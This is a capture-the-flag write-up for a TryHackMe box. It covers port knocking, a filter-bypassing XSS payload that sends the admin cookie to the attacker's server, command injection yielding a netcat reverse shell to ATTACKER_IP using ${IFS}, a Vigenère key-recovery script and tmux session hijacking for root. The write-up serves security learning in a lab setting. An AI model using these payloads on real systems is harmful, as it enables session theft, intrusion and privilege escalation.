This box is rated hard difficulty on THM. It involves us port knocking to access a Werkzeug web server, exploiting XSS to steal an admin session, grabbing a reverse shell via LFI, escaping a docker container by deciphering an RSA key, brute forcing an SSH login, and hijacking a tmux session running as root.

This box is awesome and I highly recommend trying it on your own before reading through this.

_Collaboration between Jake and Blob!_

## Scanning & Enumeration
I begin with an Nmap scan against the given IP to find all running services on the host. 

```
$ sudo nmap -p21,22 -sCV 10.66.147.41 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-31 22:19 CST
Nmap scan report for 10.66.147.41
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.144.73
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:91:89:96:af:bc:06:b9:8d:43:df:53:dc:1f:8f:12 (RSA)
|   256 25:0b:be:a2:f9:64:3e:f1:e3:15:e8:23:b8:8c:e5:16 (ECDSA)
|_  256 09:59:9a:84:e6:6f:01:f3:33:8e:48:44:52:49:14:db (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.55 seconds
```

There are just two ports open:
- FTP on port 21
- SSH on port 22

There are no web components for this box and this particular version of OpenSSH isn't vulnerable to anything other than username enumeration so, it looks like we must get credentials or a reverse shell through FTP. Luckily anonymous login is allowed and we head on in to find any files.

```
$ ftp 10.66.147.41 
                                   
Connected to 10.66.147.41.
220 (vsFTPd 3.0.3)
Name (10.66.147.41:cbev): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
229 Entering Extended Passive Mode (|||63538|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 pub
226 Directory send OK.

ftp> cd pub
250 Directory successfully changed.

ftp> ls -la
229 Entering Extended Passive Mode (|||52523|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 28  2020 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 18  2020 ..
-rw-r--r--    1 ftp      ftp           103 Aug 28  2020 info.txt
-rw-r--r--    1 ftp      ftp           248 Aug 26  2020 jokes.txt
-rw-r--r--    1 ftp      ftp        737512 Aug 18  2020 trace.pcapng
226 Directory send OK.

ftp> get info.txt
local: info.txt remote: info.txt
229 Entering Extended Passive Mode (|||17522|)
150 Opening BINARY mode data connection for info.txt (103 bytes).
100% |*************************************************************************|   103        1.03 KiB/s    00:00 ETA
226 Transfer complete.
103 bytes received in 00:00 (0.70 KiB/s)

ftp> get jokes.txt
local: jokes.txt remote: jokes.txt
229 Entering Extended Passive Mode (|||36128|)
150 Opening BINARY mode data connection for jokes.txt (248 bytes).
100% |*************************************************************************|   248      274.58 KiB/s    00:00 ETA
226 Transfer complete.
248 bytes received in 00:00 (5.18 KiB/s)

ftp> get trace.pcapng
local: trace.pcapng remote: trace.pcapng
229 Entering Extended Passive Mode (|||56817|)
150 Opening BINARY mode data connection for trace.pcapng (737512 bytes).
100% |*************************************************************************|   720 KiB    1.77 MiB/s    00:00 ETA
226 Transfer complete.
737512 bytes received in 00:00 (1.60 MiB/s)
```

Three files are inside of a public share on FTP, two of which are text files containing messages or jokes between a few users and the final one being a network packet capture file. I'll add these names to a user list in case we need to brute force later on and then start digging around the pcap to find any potential secrets or sensitive info.

## Port Knocking
Also, the jokes file caught my attention as we're dealing with networking material and knock knock jokes seemed a bit out of place. Then it hit me, we are probably supposed to be looking through the network traffic in order to find a port knock sequence. This made plenty of sense to me as there is nothing else on FTP for us and SSH logins will be encrypted with TLS/SSL.



If you didn't know, port knocking is a security technique where a client would send a specific sequence of connection attempts to closed ports to signal a server to temporarily open a protected service port. This concept was more popular in the early 2000's, and was used as a lightweight way to hide services like SSH from unsolicited scans and attacks.

Of course, nowadays there are much better ways to protect ports as both firewall and IPS improvements have come a long way. Either way it's still cool to see this implemented in a box.

Alright, let's open up the pcap in Wireshark (or your preferred choice of traffic analysis tool) and try to find this sequence. We are looking for a series of TCP connections followed by either a RST or no response from the server.

I find a few RST packets from the following IP that responds to another private IP; this is most likely our target server.

```
ip.addr == 192.168.236.131
```

Filtering the pcap by that source IP will give us a series of SYN packets sent from an unknown client, as well as responses from the server forcing the handshake to reset.



Since it's already in chronological order, we can see that the ports the server responds from will be our knock order. In our case, it is **7864 -> 8273 -> 9241 -> 12007 -> 60753**. I decided to create a quick Python script to send connection attempts to the gathered ports:

```
import socket
import time

target = "10.66.147.41"
ports = [7864, 8273, 9241, 12007, 60753]

for port in ports:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(0.5)
        s.connect((target, port))
    except Exception:
        pass
    finally:
        s.close()
        time.sleep(0.3)
```

You can also use tools like [knockd](https://linux.die.net/man/1/knockd) or others available on GitHub for this step. After letting that run, I scan the network again with Nmap to find a new service on port 8080.



## Hidden Web Server
Attempting to reach the page shows a connection reset error, but upon further inspection the port is using SSL so we must use HTTPS to connect on our browser. I view the certificate for some extra information and find an email for a user named zac who is listed as the Issuer.



The actual webpage doesn't offer much besides a photo of Paramore's lead singer, Hayley (also what the box is named after).



I fire up Gobuster to find any subdirectories on the site we can move to exploit. 

```
┌──(cbev㉿kali)-[~]
└─$ gobuster dir -u https://10.66.147.41:8080/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -k
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.66.147.41:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 761]
/dashboard            (Status: 302) [Size: 219] [--> https://10.66.147.41:8080/login]
/console              (Status: 200) [Size: 1985]
```

This returns a few interesting hits, the first being a interactive console page that allows for Python expressions to be ran remotely, however it is PIN protected so I move on for now. It's a bit hard to see but the warning shows that this page discloses that the site is utilizing Werkzeug as its uWSGI; that's great info as now we know to exploit Python payloads in the coming steps.



Next is a login page for members apart of the misguided ghosts club. I didn't have much to go off of so I tried a few attempts with Hayley and Zac with the password being the username reused and get a successful login as Zac. This site looks to be used to post about the band Paramore and anything regarding the group in general. 



## Cross-Site Scripting
It allows for users to post to the landing page in order for others to see. The message also notes that an admin will check every so often to moderate content on the site. I also discover that the server gives us a login cookie with the `HttpOnly` option set to false.



It would be huge if this site was vulnerable to XSS as that would allow us to steal the administrator's cookie and login as them. Next, I use a few payloads from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) meant to bypass filters along with an HTTP server on my attacking machine and find that this site is absolutely vulnerable session hijacking.

```
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://192.168.144.73/" + document.cookie;&lt;/sscriptcript&gt;
```



Initial Foothold
Using that admin cookie, we can now fuzz for more directories, hopefully containing functions for us to exploit.

```
┌──(cbev㉿kali)-[~]
└─$ gobuster dir -u https://10.66.147.41:8080/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -k -c 'login=hayley_is_admin'
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.66.147.41:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] Cookies:                 login=hayley_is_admin
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 302) [Size: 227] [--> https://10.66.147.41:8080/dashboard]
/photos               (Status: 200) [Size: 629]
/dashboard            (Status: 200) [Size: 1211]
/console              (Status: 200) [Size: 1985]
```

I discover the `/photos` endpoint, which allows for file uploads to the website. Checking to see if a safe file is allowed for any filters in place returns a strange error that it cannot be found. It looks like this upload function is used to pull files from the web server and put them into a photos directory that the site will grab from.


We can see that the file we attempted to upload is reflected in the URL via the image parameter. I test for an LFI vulnerability by suppyling `/etc/passwd` with directory traversal characters but it just outputs the same string. Next I tried just using a period, in hopes that the function would resolve the output to everything within the current working directory. This works and I get a list of files on the web server.



Appending a semicolon with a simple command like whoami confirms that we actually have RCE on the box and that the server is running as root user. Also, the existence of a Dockerfile almost certainly means the site is hosted in a Docker container. 

Now let's try a Python reverse shell as we know the site is using Werkzeug. The typical subprocess dupe file method returned an error saying that the server cannot access it. 

```
cannot access '.;python3-c'importsocket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)...'
```

Judging by the stdout being printed, the server is filtering spaces in the image parameter. Instead I switch to using `${IFS}` as a space delimiter in the payload. This doesn't seem to work with Python because the quotes are interpreted literally, so I downgrade to a simpler netcat command.

```
image=.;nc${IFS}ATTACKER_IP${IFS}PORT${IFS}-e${IFS}/bin/sh
```



## Docker Escape
Now that we have a shell on the box, it's time to escape the docker container. A bit of internal enumeration shows a few very sensitive files inside a notes folder in Zac's home directory. The first is an RSA private key to login on the box via SSH, and the other is a message denoting that they have ciphered the file using a key (most likely using a Vigenère cipher).



I copy/paste this key to my attacking machine to make it easier to decipher. It is possible to reverse this by brute forcing the key if we know a piece of the plaintext already. A bit of research shows that luckily RSA key files all begin with the string 'MII'.

_Note: This is technically possible to do by hand, as are all ciphers but it may take an extremely long time and brushing up on scripting is always needed._

Next, I make a python script in order to brute force this key as finding a tool already made proved  troublesome. This was my final product:

```
#!/usr/bin/env python3

import argparse
import sys

def vigenere_decode(ciphertext: str, key: str) -> str:
    result = []
    key = key.strip()
    if not key.isalpha():
        return ""

    key_index = 0
    key_len = len(key)

    for c in ciphertext:
        if c.isalpha():
            k = key[key_index % key_len]
            shift = ord(k.lower()) - ord('a')

            if c.isupper():
                decoded = chr((ord(c) - ord('A') - shift) % 26 + ord('A'))
            else:
                decoded = chr((ord(c) - ord('a') - shift) % 26 + ord('a'))

            result.append(decoded)
            key_index += 1
        else:
            result.append(c)

    return ''.join(result)

def main():
    parser = argparse.ArgumentParser(add_help=False)
    parser.add_argument('-w', required=True, help='wordlist')
    parser.add_argument('-c', required=True, help='ciphered snippet')
    parser.add_argument('-u', required=True, help='unciphered snippet')
    args = parser.parse_args()
    try:
        with open(args.w, 'r', errors='ignore') as wordlist:
            for line in wordlist:
                key = line.strip()
                if not key:
                    continue

                decoded = vigenere_decode(args.c, key)
                if decoded == args.u:
                    print()
                    print(f'The correct key is: {key}')
                    print()
                    sys.exit(0)

    except FileNotFoundError:
        print(f'Error: cannot open wordlist {args.w}')
        sys.exit(1)

if __name__ == "__main__":
    if len(sys.argv) != 7:
        print('Example command:')
        print('python3 brute_viginere_key.py -w /usr/share/wordlists/rockyou.txt -c ciph -u qwjd')
        print('-w: wordlist')
        print('-c: ciphered part')
        print('-u: plaintext part')
        sys.exit(1)

    main()
```



This rewards us with the key that was used to cipher the RSA key file. We can throw the entire thing into Cyberchef to decode is using their built-in function. Finally, we can replace the original file with our plaintext one (apart from the header and footer) to login via Zac's account on SSH.

## Privilege Escalation
Now we can start finding routes to escalate privileges to root. Hayley is another user in the home directory so we'll probably have to pivot to her account before fully owning the machine. I check the usual spots for misconfigured backup files, hardcoded creds in the web dir, and binaries with the SUID bit set but don't find anything.

While checking the running services, I notice an SMB instance running on localhost ports 139/445.



I port forward this using SSH and connect using smbclient to read files on any available.

```
sudo ssh -i id_rsa -L 445:localhost:445 zac@MACHINE_IP
```



Inside is a local share containing a file with backup passwords for services running on the host. Maybe one of these will work for Hayley's or Root's account.



Bingo! Now let's login and restart enumeration to grab root privileges. We can also grab the user flag under her home directory at this point.

Checking Sudo permissions for her account shows that she has the ability to run `/usr/sbin/visudo` as root user, however this was just a way to restart the SSH daemon. After a lot of time sunk and plenty of digging, I discover a process running as root user that seemed a bit strange.



I figured a shell that's already running as root user would be a pretty easy target if not configured correctly. Checking the permissions on that .details socket shows that everyone in the paramore group has the ability to read/write to it.



This means that we can simply use the tmux binary while specifying the socket to hijack the root shell and grab full privileges over the machine.[This](https://redfoxsec.com/blog/terminal-multiplexing-hijacking-tmux-sessions/) is a great article explaining the ins and outs of this process.



That's all y'all, this box was very fun as every step was unique and isn't often seen in challenges like these. Huge thanks to [jakeyee](https://tryhackme.com/p/jakeyee) and [blobloblaw](https://tryhackme.com/p/bobloblaw) for creating such a cool box. I hope this was helpful to anyone following along or stuck and happy hacking!
